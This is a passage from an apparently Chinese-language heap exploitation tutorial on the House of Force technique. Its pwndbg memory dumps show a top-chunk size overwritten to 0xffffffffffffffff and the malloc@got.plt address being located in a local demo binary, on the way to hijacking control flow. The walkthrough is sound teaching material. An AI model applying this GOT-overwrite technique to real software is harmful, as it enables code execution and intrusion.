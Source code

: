 
相同的步骤，让程序继续执行*ptr=-1;：

```c
pwndbg> x/16gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000021 #chunk1
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff #top_chunk
								#ptr
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

从上面的代码框中可以看出top_chunk_size已经被改成了0xffffffffffffffff，在真正的题目中，这一步可以通过堆溢出等漏洞来实现。 因为 -1 在补码中是以 0xffffffffffffffff 表示的，所以我们直接赋值 -1 就可以。

还记得我们的目标吗？通过HOF（House Of Force）来篡改malloc@got.plt 实现劫持程序流程。

接下来程序就开始执行malloc(-4120);了，有个疑问，-4120这个数字是怎么来的？

由于我们的目标是malloc@got.plt，因此将程序拖入IDA中：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1605015661033-f8aba608-ba19-4040-8430-7ff57c77784e.png)

从IDA中可以看到malloc@got.plt所在的地址为0x601020:

```c
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/ubuntu/Desktop/top_chunk_demo1
          0x600000           0x601000 r-xp     1000 0      /home/ubuntu/Desktop/top_chunk_demo1
          0x601000           0x602000 rwxp     1000 1000   /home/ubuntu/Desktop/top_chunk_demo1
          0x602000           0x623000 rwxp    21000 0      [heap]
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r-xp     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rwxp     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rwxp     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7fd9000     0x7ffff7fdc000 rwxp     3000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r-xp     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rwxp     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rwxp     1000 0      
    0x7ffffffde000     0x7ffffffff000 rwxp    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
pwndbg> x/16gx 0x601020
0x601020:	0x00007ffff7a91180	0x0000000000000000
    		#malloc@got.plt
0x601030:	0x0000000000000000	0x0000000000000000
0x601040:	0x0000000000000000	0x0000000000000000
0x601050:	0x0000000000000000	0x0000000000000000
0x601060:	0x0000000000000000	0x0000000000000000
0x601070:	0x0000000000000000	0x0000000000000000
0x601080:	0x0000000000000000	0x0000000000000000
0x601090:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x00007ffff7a91180
0x7ffff7a91180 <__GI___libc_malloc>:	0x8b4808ec83485355	0x008b480033fd6305
0x7ffff7a91190 <__GI___libc_malloc+16>:	0x00014f850fc08548	0x0033fbf0058b4800
0x7ffff7a911a0 <__GI___libc_malloc+32>:	0x48188b4864fd8948	0x8304438b0c74db85
0x7ffff7a911b0 <__GI___libc_malloc+48>:	0x00000098840f04e0	0xc08548ffff9453e8
0x7ffff7a911c0 <__GI___libc_malloc+64>:	0x0000c7840fc38948	0xe8df8948ee894800
0x7ffff7a911d0 <__GI___libc_malloc+80>:	0x48c08548ffffd9bc	0x000000d8840fc289
```